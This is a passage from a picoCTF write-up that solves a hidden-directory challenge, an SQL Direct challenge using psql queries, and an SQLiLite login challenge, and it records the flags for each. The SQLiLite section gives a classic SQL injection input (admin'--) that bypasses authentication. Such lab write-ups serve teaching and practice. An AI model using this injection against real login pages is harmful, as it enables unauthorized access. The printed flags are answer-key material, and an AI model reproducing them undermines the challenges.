 ![almost](https://bn1304files.storage.live.com/y4mip1DR3vLtRPSlDVDCvz9u5Vs5Mu9_ATaCmH5OCTGspF1ic7TvzIKpphfAjdGJM3W5x1J-hIGudVzr9zIFVbC2FvVXg2MmuVw387Z4q8wSYeO6E767ZnzkGteu6GhUR6fI6tLVKKrvVlflad0gApLA4Jk5sbB-ZD57kET7cK1wc3XIeqMMjKIopPMzyXJxK3u?width=2860&height=1658&cropmode=none)

By diving deeper into the hidden folder and finally we are able to see the `secret/hidden/superhidden/` directory as below with the flag in html.

![found](https://bn1304files.storage.live.com/y4mDF3Ud4FIK71TAbICUfUskJktZc0q8VIwZnUw3D9yk77S7jRv025RGSDUa9x6Y3xCT_NDrPDY-wN06TL5RLVUHeqzxkjMKrBC-9wP8IfUMOvlOMSOd9AofhPu5PJAZgRxm7r-7F7Tc_vpSgjCtvMmtq7DisJee7q7v_q6RU2zDfcTGYOj9bKFXxZbRKGxMQxL?width=2860&height=1658&cropmode=none)

`picoCTF{succ3ss_@h3n1c@10n_34327aaf}`

### SQL Direct

Connect to this PostgreSQL server and find the flag!

```bash
psql -h saturn.picoctf.net -p 57594 -U postgres pico
```

```SQL
pico=# help;
You are using psql, the command-line interface to PostgreSQL.
Type:  \copyright for distribution terms
       \h for help with SQL commands
       \? for help with psql commands
       \g or terminate with semicolon to execute query
       \q to quit

pico=# \dt
         List of relations
 Schema | Name  | Type  |  Owner   
--------+-------+-------+----------
 public | flags | table | postgres
(1 row)

pico=# SELECT * FROM flags;
 id | firstname | lastname  |                address                 
----+-----------+-----------+----------------------------------------
  1 | Luke      | Skywalker | picoCTF{L3arN_S0m3_5qL_t0d4Y_0414477f}
  2 | Leia      | Organa    | Alderaan
  3 | Han       | Solo      | Corellia
(3 rows)
```

### SQLiLite

Can you login to this website?

```txt
username:admin'--
password:admin'--
```

![flag](https://bn1304files.storage.live.com/y4mFPqWhF-8azrwfd5EeDRY5z_n35EMCrAVdgqc0MKXI7VzpYb26iFk99pFhW3epEqULswunY7GZQCVkydiBtFmLJSwOwmUfsveKNla2eXT-urQSSZcIu1osgUMSAY8u5_6d7cB7UhOvCBz6bi0qQ51tASoQcuQAlmSaq4G9QfMLzLHHUSwsW48V8Aji3-IOj7b?width=2872&height=1656&cropmode=none)

Your flag is: picoCTF{L00k5_l1k3_y0u_solv3d_it_33d32a56}
